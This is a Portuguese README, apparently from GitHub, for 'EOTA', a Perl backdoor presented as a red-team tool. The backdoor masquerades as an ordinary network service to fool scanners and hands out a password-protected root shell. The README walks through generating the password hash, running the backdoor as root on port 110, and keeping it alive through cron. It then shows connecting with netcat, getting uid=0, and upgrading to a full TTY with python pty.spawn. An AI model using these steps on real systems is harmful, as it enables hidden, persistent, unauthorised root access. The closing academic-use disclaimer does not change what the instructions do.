 # EOTA
Este script é uma backdoor ''' Perl ''' projetada para equipes vermelhas e que funciona como um serviço/porta qualquer que voce desejar.<br/>
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.<br/>
Por favor modifique o codigo fonte da ferramenta para personalização.

#### obs: Necessario modificação para implementar criptografia no trafego.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:<br/>
perl -e 'print crypt ("PASSWORD","salto")'<br/>
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git<br/>
>$ cd PERL<br/>
>$ chmod a+x EOTA.pl<br/>
>'#' perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110<br/>
>PASSWORD<br/>
>id<br/>
>uid=0(root) gid=0(root) groups=0(root)

## TTY
Se voce precisar de um TTY voce pode verificar com o python por exemplo, para obter uma linha de comando mais interativa:<br/>
>which python<br/>
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'<br/>


#### ATENÇÃO: Não me responsabilizo pelo uso indevido desta ferramenta, ela foi projetada para fins academicos. 
